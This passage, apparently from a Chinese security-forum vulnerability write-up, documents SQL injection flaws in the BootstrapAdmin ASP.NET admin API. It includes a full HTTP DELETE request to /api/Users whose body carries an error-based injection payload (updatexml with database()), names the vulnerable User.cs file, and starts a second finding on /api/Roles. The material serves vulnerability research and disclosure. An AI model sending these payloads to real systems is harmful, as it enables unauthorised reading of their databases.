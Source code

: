`http://localhost:50852/api/Users`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-d397d140374e2b25f27495ed813f9d2da77cdf40.png)

请求包：

```python
DELETE /api/Users HTTP/1.1
Host: localhost:50852
Content-Length: 47
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Admin/Users
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNYIk8qTrVAchQMdNQDsqE0fBboelKrRDrSlcNGeSNFI1jNSivWc5b5t8tkI1SES8xumGS6HdMyCcTFdEqocP7y74P26iG_iKW6RRYrazzhQNkcvDfYzcxAzdbm-f5FqO88; .AspNetCore.Cookies=CfDJ8Gs8oXs1rxRKjEnWjDIDxNaE3CXKRjutQdTU9MI2xO1nRk7yd-9PgK41JPtnvxNoybJwZclKPosGkyWisjmmpaB2xJkLw04jWnB1ZpvrHYBNhbm02wR62IXpOdYVnmBRgSs7UrKRDnk-fAR9CRWNiYrLr5Dq9irg-R7uxSbuwu1A-eKvcQUsLvd_nvlRmExl_ay-3wo0v1rvUe1pwpbhyzzda5HLQbh0XOMmor5h0q66o9vFYO5dgBUGqYxpBidWCv0PoKzqGQeA_8dxsBolEctWPrQEKakod3mJ1HrIKQR1
Connection: close

["updatexml(1,concat(0x7e,database(),0x7e),3)"]
```

### 漏洞定位

`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\User.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-09810dc34830286aeb7b5fb19093dfd735172a29.png)

【后台】删除角色表接口存在SQL注入
------------------

权限：后台管理员用户权限

### 漏洞利用

`http://localhost:50852/api/Roles`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-253a6b9abd0f178d369e807b5cdfb9eaabd79d82.png)

